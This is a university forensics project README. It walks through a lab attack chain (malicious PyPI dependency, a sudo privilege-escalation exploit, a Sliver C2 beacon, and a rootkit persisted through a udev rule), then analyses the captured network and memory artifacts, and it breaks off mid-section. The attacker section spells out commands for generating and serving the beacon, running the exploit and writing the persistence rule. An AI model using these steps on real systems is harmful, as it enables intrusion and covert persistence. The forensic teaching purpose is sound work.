# About This Project

This project was developed as part of the Digitale Forensik course at the [Technische Hochschule Deggendorf](https://www.th-deg.de/).

It demonstrates a full forensic investigation and attack simulation involving:

  - A Python dependency confusion attack using a malicious PyPI package

  - Privilege escalation via a vulnerable version of sudo (CVE-2025-32463)

  - Deployment of a Sliver C2 beacon

  - A custom rootkit with kernel module loading, syscall hooking, and udev-based persistence

  - Complete analysis of memory and network artifacts using tools like Volatility, NetworkMiner, and manual reversing

The repository contains scripts, setup instructions, artifacts , and detailed analysis steps to replicate both the attack and the forensic investigation.
# TOC
 - [Privilege Escalation](#privilege-escalation)
  - [Exploit Chain](#exploit-chain)
  - [Artifact Generation](#artifact-generation)
    - [Create Memory Dump](#create-memory-dump)
    - [Prepare Network Dump on Ubuntu](#prepare-network-dump-on-ubuntu)
  - [Setup Developer Ubuntu Client (`shell`)](#setup-developer-ubuntu-client-(`shell`))
    - [1. Clone the repository and execute](#)
    - [2. Once the VM is up, SSH in](#)
    - [3. Install the vulnerable sudo and Python venv](#)
    - [4. Build the userland loader binary (shell)](#)
    - [5. Send the `shell` to the Kali to later serve it from there.](#5.-send-the-`shell`-to-the-kali-to-later-serve-it-from-there.)
  - [Setup Kali (192.168.56.101)](#setup-kali-(192.168.56.101))
    - [1. Start Sliver server](#1.-start-sliver-server)
    - [2. Generate a HTTP Beacon](#2.-generate-a-http-beacon)
    - [3. Rename and serve beacon](#3.-rename-and-serve-beacon)
    - [4. Start listener](#4.-start-listener)
  - [Simulate Developer](#simulate-developer)
    - [1. Clone the PoC](#1.-clone-the-poc)
    - [2. Create and activate a Python venv](#2.-create-and-activate-a-python-venv)
    - [3. Install dependencies](#3.-install-dependencies)
    - [4. Run the malicious package](#4.-run-the-malicious-package)
  - [Simulate the Attacker](#simulate-the-attacker)
    - [1. Wait for the Beacon and inspect the sudo version](#)
    - [2. Upload exploit and loader](#2.-upload-exploit-and-loader)
    - [3. Execute Sudo Exploit](#3.-execute-sudo-exploit)
    - [4. Load kernel module](#4.-load-kernel-module)
    - [5. Setting up a udev rule](#5.-setting-up-a-udev-rule)
    - [6. Reboot](#6.-reboot)
    - [7. Catch shell on reboot](#7.-catch-shell-on-reboot)
  - [Analysis](#analysis)
    - [Overview of Collected Artefacts](#overview-of-collected-artefacts)
    - [Quick Network Overview with NetworkMiner](#quick-network-overview-with-networkminer)
    - [Detailed Traffic Analysis](#detailed-traffic-analysis)
      - [GitHub Download](#github-download)
      - [PyPI Download](#pypi-download)
      - [Malicious “lilux” Binary Retrieval](#malicious-“lilux”-binary-retrieval)
    - [Post‑Download Behavior](#post‑download-behavior)
      - [Sliver Beaconing](#sliver-beaconing)
      - [Unencrypted Reverse Shell](#unencrypted-reverse-shell)
    - [Summary](#summary)
      - [Key Findings](#key-findings)
      - [Forensic Implications](#forensic-implications)
  - [Memory Analysis](#memory-analysis)
    - [Environment and Setup](#environment-and-setup)
    - [Memory Dump Acquisition](#memory-dump-acquisition)
    - [Install Debug Symbols](#install-debug-symbols)
    - [Generate the Volatility Symbol File](#generate-the-volatility-symbol-file)
    - [Run Volatility with Symbols](#run-volatility-with-symbols)
    - [(Optional) Faster Searching with fzf](#(optional)-faster-searching-with-fzf)
    - [Finding Interesting Files](#finding-interesting-files)
    - [Loaded Modules](#loaded-modules)
    - [Udev Rule](#udev-rule)
    - [Extracting the `shell`](#extracting-the-`shell`)
  - [Reversing of `shell binary`](#reversing-of-`shell-binary`)
    - [load_module Branch](#load_module-branch)
    - [rsh Branch](#rsh-branch)
      - [daemonize Function](#daemonize-function)
      - [Reverse Shell](#reverse-shell)
    - [Summary of Behavior](#summary-of-behavior)
      - [Behavioral Summary](#behavioral-summary)
  - [Reversing of Kernel Module](#reversing-of-kernel-module)
    - [Python script to extract Kernel Module](#python-script-to-extract-kernel-module)
      - [1. Create Range](#-`[virtaddr,-virtaddr-+-memsiz/filesiz]`)
      - [2. Compare the target address](#)
      - [3. Continue until a match is found](#)
    - [rkit_init](#rkit_init)
    - [Hooked Functions](#hooked-functions)
      - [Kill Hook](#kill-hook)
      - [Getdents(64) Hook](#getdents(64)-hook)
    - [Module Hiding](#module-hiding)
    - [Debug Messages](#debug-messages)
    - [Reverse Shell Loader](#reverse-shell-loader)
    - [rkit_exit](#rkit_exit)
  - [Checksums](#checksums)
  - [Tools and Versions Used](#tools-and-versions-used)

# Privilege Escalation

**CVE-2025-32463**  
[NVD Details](https://nvd.nist.gov/vuln/detail/CVE-2025-32463)  
[POC Github](https://github.com/pr0v3rbs/CVE-2025-32463_chwoot)

> [!NOTE]  
> You must install a vulnerable Sudo version (with chroot support—see `privesc/setup.sh`)

# Exploit Chain




# Artifact Generation

All artifacts are generated manually. You will use two machines:
- **Attacker machine** (Kali Linux)
- **Developer machine** (Ubuntu)

We will produce three artifacts:
- **PCAP** (before reboot)
- **Memory dump** (after reboot)

## Create Memory Dump
[How to dump VirtualBox memory](https://www.ired.team/miscellaneous-reversing-forensics/dump-virtual-box-memory)


On the host system:

```shell
vboxmanage list vms
"linux-root-kit_default_1752261916398_20346" {c2d4b5bc-d87f-4dcb-af01-85b78c163fef}
virtualboxvm --startvm "linux-root-kit_default_1752261916398_20346" --dbg
```

Goto interface --> Debug
In the Debug Console (VMMR0> prompt):
```shell
.pgmphystofile 'dumpmem_linux_root_kit'
```


## Prepare Network Dump on Ubuntu
Start before simulating the developer. The `! port 22` is useful to not log the vagrant ssh connection.
```shell
sudo tcpdump -w output.pcap ! port 22
```

# Setup Developer Ubuntu Client (`shell`)

## 1. Clone the repository and execute:

  ```shell
  vagrant up
  ```
  
  This can take a while --> downloads an entire vm that was build with Bento. 

## 2. Once the VM is up, SSH in:

  ```shell
  vagrant ssh
  ```

## 3. Install the vulnerable sudo and Python venv:

  ```shell
  sudo bash /vagrant/privesc/setup.sh
  sudo apt install python3.12-venv
  ```

## 4. Build the userland loader binary (shell):

  You can also execute the `make` file to build the userland binary `shell`. This the easiest way to do it - otherwise you would need to install the correct headers first :P.

## 5. Send the `shell` to the Kali to later serve it from there.
 

# Setup Kali (192.168.56.101)

## 1. Start Sliver server

  ```shell
  sliver
  ```
  

## 2. Generate a HTTP Beacon

  ```shell
  generate beacon --os linux --format elf --arch amd64 --http 192.168.56.101
  ```
  


## 3. Rename and serve beacon

  ```shell
  mv INTERNATIONAL_DETENTION lilux
  python3 -m http.server 9001
  ```
## 4. Start listener

  ``` 
  http -l 80 -L 0.0.0.0
  ```


# Simulate Developer

## 1. Clone the PoC

  This repo could be any repo with a vulnerable config for dependency-confusion :D.

  ```
  git clone https://github.com/IC3-512/dependency-confusion-attack.git
  ```

## 2. Create and activate a Python venv

  ```
  python3 -m venv .venv
  source .venv/bin/activate
  ```

## 3. Install dependencies

  ```
  pip install --upgrade --force-reinstall --no-cache-dir -r requirements.txt --verbose 
  ```

## 4. Run the malicious package
  ```
  python3 app.py
  ```
  This should start the malicious package, which loads our beacon and executes it.


# Simulate the Attacker

_(Bad opsec xD)_

## 1. Wait for the Beacon and inspect the sudo version:

  

  

  ```
  sudo -V
  ```

## 2. Upload exploit and loader

  The exploit.sh is from [pr0v3rbs (Github link)](https://github.com/pr0v3rbs/CVE-2025-32463_chwoot/blob/main/sudo-chwoot.sh) and targets sudo.
  The `shell` binary is from the previous step during Ubuntu provisioning.

  This is done in the sliver server tui:

  ```shell
  upload exploit.sh
  upload shell
  ```

## 3. Execute Sudo Exploit

  This is executed in the sliver OBVIOUS_MEASUREMENT session inside a shell.

  ```shell
  bash exploit.sh
  ```
  

## 4. Load kernel module

  

## 5. Setting up a udev rule

  ```
  echo 'ACTION=="add", ENV{MAJOR}=="1", ENV{MINOR}=="8", RUN+="/shell load"' | sudo tee /etc/udev/rules.d/99-load-rootkit.rules
  ```

  

## 6. Reboot

  

## 7. Catch shell on reboot

  


# Analysis

## Overview of Collected Artefacts

Three key artifacts were collected for forensic analysis:
- **Memory dump** (after infection and reboot)
- **Network capture (output.pcap)**

These artifacts enable reconstruction of the attack timeline, identification of malicious binaries, and analysis of persistence mechanisms.

## Quick Network Overview with NetworkMiner
NetworkMiner was used to extract endpoints and files from the network capture ([Network Miner](https://www.netresec.com/?page=Blog&month=2025-04&post=How-to-Install-NetworkMiner-in-Linux)).

```shell
mono /opt/NetworkMiner/NetworkMiner.exe --noupdatecheck
```




**Key Finding:**
- The developer client (10.0.2.15) established outbound connections on ports **80** and **9001** to **192.168.56.101**, as well as to GitHub and PyPI.
- **192.168.56.101** is identified as the attacker-controlled C2 server and is the primary focus for further investigation.

## Detailed Traffic Analysis

### GitHub Download
- **Packets 5–51**: Connection to `github.com` over HTTPS. No suspicious payloads were extracted; activity consistent with legitimate dependency retrieval.



### PyPI Download
- **Packets 58–112**: Connection to `pypi.org` over HTTPS. Standard package fetch; no evidence of tampering in transit.



### Malicious “lilux” Binary Retrieval
- **Packets 116–1529**: HTTP GET request to `192.168.56.101` for `/lilux`. The raw TCP stream was extracted and HTTP headers removed, resulting in the file **`lilux_hex`**.

```shell
sha256sum lilux_hex
cb9ec2399929bae6383148dc983b0e07571534f65293fa085adac31bf35fd543
```

Analysis with VirusTotal confirmed this binary as a **Sliver** C2 implant.



## Post‑Download Behavior

### Sliver Beaconing
Immediately after the “lilux” binary is executed, it initiates an HTTP beacon to **192.168.56.101:80**. Persistent C2 traffic is observed up to packet 3642, confirming active communication with the attacker.



### Unencrypted Reverse Shell
In parallel with Sliver traffic, an **unencrypted TCP reverse shell** is established to **192.168.56.101**. Captured commands include:

```shell
id
```


```shell
hostname
```


The full shell session is captured in packets 3600–3800, providing evidence of interactive attacker control.





## Summary

### Key Findings
1. **Victim host (10.0.2.15)** downloaded a malicious “lilux” binary from **192.168.56.101**.
2. The binary is confirmed as a Sliver implant, which immediately beaconed back to the C2 server at the same IP.
3. An independent unencrypted reverse shell was also established to the same server, enabling direct attacker control.

### Forensic Implications
- The presence of both encrypted (Sliver) and unencrypted (reverse shell) C2 channels demonstrates layered persistence and redundancy in attacker tooling.
- Network artifacts provide a clear timeline of infection, payload delivery, and attacker interaction.

# Memory Analysis

## Environment and Setup
The developer VM was provisioned using Bento (`bento/ubuntu-24.04`) and managed via Vagrant. This ensured a reproducible environment for both infection and forensic analysis.

```shell
vagrant up
vagrant ssh
```

## Memory Dump Acquisition
The memory dump was acquired post-infection and reboot, providing a snapshot of all loaded modules, processes, and artifacts at the time of analysis.

```shell
sha256sum dumpmem_linux_root_kit
bcc73188e6905357a514107e4eac7557bce17b7e747aa1cca416c43f56c22367  dumpmem_linux_root_kit
```

## Install Debug Symbols

```
vagrant@linux-root-kit:~$ uv run vol -f dumpmem_linux_root_kit  banner      
Volatility 3 Framework 2.26.0
Progress:  100.00		PDB scanning finished                  
Offset	Banner

0x108c00120	Linux version 6.8.0-53-generic (buildd@lcy02-amd64-046) (x86_64-linux-gnu-gcc-13 (Ubuntu 13.3.0-6ubuntu2~24.04) 13.3.0, GNU ld (GNU Binutils for Ubuntu) 2.42) #55-Ubuntu SMP PREEMPT_DYNAMIC  (Ubuntu 6.8.0-53.55-generic 6.8.12)
0x108dadd60	Linux version 6.8.0-53-generic (buildd@lcy02-amd64-046) (x86_64-linux-gnu-gcc-13 (Ubuntu 13.3.0-6ubuntu2~24.04) 13.3.0, GNU ld (GNU Binutils for Ubuntu) 2.42) #55-Ubuntu SMP PREEMPT_DYNAMIC Fri Jan 17 15:37:52 UTC 2025 (Ubuntu 6.8.0-53.55-generic 6.8.12)
0x10a5e1220	Linux version 6.8.0-53-generic (buildd@lcy02-amd64-046) (x86_64-linux-gnu-gcc-13 (Ubuntu 13.3.0-6ubuntu2~24.04) 13.3.0, GNU ld (GNU Binutils for Ubuntu) 2.42) #55-Ubuntu SMP PREEMPT_DYNAMIC Fri Jan 17 15:37:52 UTC 2025 (Ubuntu 6.8.0-53.55-generic 6.8.12)2)
0x1105b5cd8	Linux version 6.8.0-53-generic (buildd@lcy02-amd64-046) (x86_64-linux-gnu-gcc-13 (Ubuntu 13.3.0-6ubuntu2~24.04) 13.3.0, GNU ld (GNU Binutils for Ubuntu) 2.42) #55-Ubuntu SMP PREEMPT_DYNAMIC Fri Jan 17 15:37:52 UTC 2025 (Ubuntu 6.8.0-53.55-generic 6.8.12)
0x114befcd8	Linux version 6.8.0-53-generic (buildd@lcy02-amd64-046) (x86_64-linux-gnu-gcc-13 (Ubuntu 13.3.0-6ubuntu2~24.04) 13.3.0, GNU ld (GNU Binutils for Ubuntu) 2.42) #55-Ubuntu SMP PREEMPT_DYNAMIC Fri Jan 17 15:37:52 UTC 2025 (Ubuntu 6.8.0-53.55-generic 6.8.12)
0x114de9cd8	Linux version 6.8.0-53-generic (buildd@lcy02-amd64-046) (x86_64-linux-gnu-gcc-13 (Ubuntu 13.3.0-6ubuntu2~24.04) 13.3.0, GNU ld (GNU Binutils for Ubuntu) 2.42) #55-Ubuntu SMP PREEMPT_DYNAMIC Fri Jan 17 15:37:52 UTC 2025 (Ubuntu 6.8.0-53.55-generic 6.8.12)
```

```
vagrant@linux-root-kit:~$ uname -a
Linux linux-root-kit 6.8.0-53-generic #55-Ubuntu SMP PREEMPT_DYNAMIC Fri Jan 17 15:37:52 UTC 2025 x86_64 x86_64 x86_64 GNU/Linux
```

```
sudo apt install ubuntu-dbgsym-keyring
echo "Types: deb
URIs: http://ddebs.ubuntu.com/
Suites: $(lsb_release -cs) $(lsb_release -cs)-updates $(lsb_release -cs)-proposed 
Components: main restricted universe multiverse
Signed-by: /usr/share/keyrings/ubuntu-dbgsym-keyring.gpg" | \
sudo tee -a /etc/apt/sources.list.d/ddebs.sources
sudo apt update
```
This next step can take up to an hour
```
sudo apt install linux-image-$(uname -r)-dbgsym

ls /usr/lib/debug/boot/vmlinux-6.8.0-53-generic 
```
## Generate the Volatility Symbol File

```
git clone https://github.com/volatilityfoundation/dwarf2json
cd dwarf2json
go build
./dwarf2json linux --elf /usr/lib/debug/boot/vmlinux-6.8.0-53-generic  > linux-6.8.0-53-generic.json  
```

```
mkdir symbols 
mv dwarf2json/linux-6.8.0-53-generic.json  .
```
## Run Volatility with Symbols

```
uv run vol -f dumpmem_linux_root_kit -s symbols linux.pslist
```

Fzf is used to pipe the output into memory and fuzzy search there --> speedup and don't need to rerun the entire vol execution 

## (Optional) Faster Searching with fzf
```
git clone --depth 1 https://github.com/junegunn/fzf.git ~/.fzf
~/.fzf/install
```

## Finding Interesting Files
Searching for interesting files in the cached files:
`/var/log/dmesg`
```
vagrant@linux-root-kit:~$ uv run vol -f dumpmem_linux_root_kit -s symbols linux.pagecache.Files | fzf
0x8befcc063800	/	252:0	1704447	0x8befc61393a8	REG	15	15	-rw-r-----	2025-07-11 21:29:36.302604 UTC	2025-07-11 21:29:36.324615 UTC	2025-07-11 21:29:36.324615 UTC	/var/log/dmesg	57657
```
Extracting the dmesg log file:
```
vagrant@linux-root-kit:~$ uv run vol -f dumpmem_linux_root_kit -s symbols linux.pagecache.InodePages --inode 0x8befc61393a8 --dump
Volatility 3 Framework 2.26.0
Progress:  100.00		Stacking attempts finished           
PageVAddr	PagePAddr	MappingAddr	Index	DumpSafe	Flags
```

## Loaded Modules
Looking inside the log we find a suspics log:
```
cat inode_0x8befc61393a8.dmp | grep 'OE+'

599:[    6.756001] kernel: Modules linked in: leds_ss4200(-) rkit(OE+) vmwgfx(+) intel_cstate(-) lpc_ich drm_ttm_helper ttm vboxguest(OE) i2c_piix4 input_leds mac_hid serio_raw sch_fq_codel dm_multipath msr efi_pstore nfnetlink dmi_sysfs ip_tables x_tables autofs4 btrfs blake2b_generic raid10 raid456 async_raid6_recov async_memcpy async_pq async_xor async_tx xor raid6_pq libcrc32c raid1 raid0 crct10dif_pclmul crc32_pclmul polyval_clmulni polyval_generic ghash_clmulni_intel sha256_ssse3 e1000 sha1_ssse3 ahci libahci psmouse pata_acpi video wmi aesni_intel crypto_simd cryptd
```
The shows an not default module `rkit`!

 - `O` = Out-of-tree (not from standard kernel)

 - `E` = has tainted the kernel (external module)

 - `+` = loaded

Searching feature for this we found this message:
```
vagrant@linux-root-kit:~$ cat inode_0x8befc61393a8.dmp | grep rkit -n 
--snip--
666:[    6.777129] kernel: rkit: loaded
```
This is likely a leftover debug message in the malicious module.

## Udev Rule
Fuzzy searching for `rkit` reveals:
```
vagrant@linux-root-kit:~$ uv run vol -f dumpmem_linux_root_kit -s symbols linux.pagecache.Files | fzf                                         
0x8befcc063800	/	252:0	1049109	0x8befcbf9bd48	REG	1	1	-rw-r--r--	2025-07-11 21:28:20.652169 UTC	2025-07-11 21:28:06.260978 UTC	2025-07-11 21:28:06.260978 UTC	/etc/udev/rules.d/99-load-rootkit.rules	68
```

Dumping the rule
```
uv run vol -f dumpmem_linux_root_kit -s symbols linux.pagecache.InodePages --inode 0x8befcbf9bd48 --dump
vagrant@linux-root-kit:~$ cat inode_0x8befcbf9bd48.dmp 
ACTION=="add", ENV{MAJOR}=="1", ENV{MINOR}=="8", RUN+="/shell load"
```

grepping for the major number we found out its for `/dev/random`. 
```
ls -l /dev | grep '^c.* 1,'
crw-rw-rw-  1 root    root      1,   7 Jul 13 23:16 full
crw-r--r--  1 root    root      1,  11 Jul 13 23:16 kmsg
crw-r-----  1 root    kmem      1,   1 Jul 13 23:16 mem
crw-rw-rw-  1 root    root      1,   3 Jul 13 23:16 null
crw-r-----  1 root    kmem      1,   4 Jul 13 23:16 port
crw-rw-rw-  1 root    root      1,   8 Jul 13 23:16 random
crw-rw-rw-  1 root    root      1,   9 Jul 13 23:16 urandom
crw-rw-rw-  1 root    root      1,   5 Jul 13 23:16 zero
```

Conclusion: Every time `/dev/random` is added on boot, the command `/shell load` gets executed!


## Extracting the `shell`
Searching feature in paged files for the programm shell:

```
